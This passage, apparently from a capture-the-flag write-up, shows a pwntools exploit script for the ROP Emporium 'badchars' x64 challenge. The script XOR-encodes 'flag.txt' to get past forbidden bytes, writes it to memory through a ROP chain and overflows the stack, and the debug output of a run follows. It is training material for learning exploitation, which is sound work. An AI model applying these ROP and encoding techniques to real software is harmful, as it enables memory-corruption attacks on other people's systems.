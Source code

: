 ```python
pop_r14_pop_r15_ret = p64(0x004006a0)                      # pop r14; pop r15; ret;
pop_rdi_ret = p64(rop.search(move=0,regs=['rdi']).address) # pop rdi; ret;

# Existing functions
print_file = p64(io.elf.plt['print_file'])

# Alphabets
badchars = b"xga.\n\r"
key = b"\x90"
target = encode_badchars(b"flag.txt", badchars, key)
info(f'XOR Key: {key}')
info(f'Encoded target: {target}')

# Write the encoded target to the .data section
idx = 0
addr_size = 8
while idx < len(target):
    data = target[idx:idx+addr_size]
    write_location = p64(writable_data_segment + idx)
    rop.raw(pop_r12_pop_r13_pop_r14_pop_r15_ret)
    rop.raw(data)
    rop.raw(write_location)
    rop.raw(p64(0xdeadbeefdeadbeef)) # junk for r14
    rop.raw(p64(0xdeadbeefdeadbeef)) # junk for r15
    rop.raw(write_memory_gadget)
    idx += addr_size

# Make the payload
offset = 40
padding = key * offset
payload = b"".join([
    padding,
    rop.chain()
])

# Pwn!
io.clean()
io.sendline(payload)
io.interactive()
```

```
$ python3 exploit.py
[+] Starting local process './badchars' argv=[b'./badchars'] : pid 4629
[DEBUG] Wrote gdb script to '/tmp/pwnvmuu57pr.gdb'
    b *0x00601028
    b *0x0040069c
[*] running in new terminal: /usr/bin/gdb -q  "./badchars" 4629 -x /tmp/pwnvmuu57pr.gdb
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./badchars" 4629 -x /tmp/pwnvmuu57pr.gdb']
[+] Waiting for debugger: Done
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[*] '/home/kali/ctf/rop-emporium/badchars/x64/badchars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[*] Loaded 13 cached gadgets for './badchars'
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[*] XOR Key: b'\x90'
```